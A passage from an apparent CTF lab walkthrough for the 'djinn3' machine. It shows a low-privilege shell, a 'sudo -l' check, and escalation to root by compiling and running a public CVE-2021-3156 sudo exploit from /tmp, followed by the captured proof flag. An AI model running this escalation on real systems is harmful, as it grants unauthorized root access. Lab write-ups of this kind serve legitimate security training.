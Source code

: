 ```bash

 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

134 packages can be updated.
93 updates are security updates.



The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

saint@djinn3:~$ whoami
saint
```

Check if I have sudo privs:

```bash
saint@djinn3:/home$ sudo -l
Matching Defaults entries for saint on djinn3:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User saint may run the following commands on djinn3:
    (root) NOPASSWD: /usr/sbin/adduser, !/usr/sbin/adduser * sudo, !/usr/sbin/adduser * admin
```

Now the path to root is clear with sudo. I ran linpeas earlier and saw that the potential to abuse the sudo version, which is 1.8.21. Ultimately, I went with ![this](https://github.com/0xdevil/CVE-2021-3156) exploit. 

Bring the exploit over to the machine, compile, then execute and become root:

```bash
saint@djinn3:/tmp$ ls
02-03-2023.config.json  netplan_08wcc_wh  systemd-private-219d08cd97674c36b8d1706413f7cf3f-systemd-resolved.service-zxvh51
exploit.c               netplan_cond8uf0  systemd-private-219d08cd97674c36b8d1706413f7cf3f-systemd-timesyncd.service-befWrh
f                       pspy32            tmux-1000
Makefile                shellcode.c       vmware-root_676-2731021186
saint@djinn3:/tmp$ make
mkdir libnss_x
cc -O3 -shared -nostdlib -o libnss_x/x.so.2 shellcode.c
cc -O3 -o exploit exploit.c
saint@djinn3:/tmp$ ./exploit
# cd root
/bin/sh: 1: cd: can't cd to root
# cd /root
# ls
proof.txt
# cat proof.txt
918e73af9a86463a74a6a7e2d21a4c18
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root),1002(saint)
# hostname -I
192.168.122.102
```
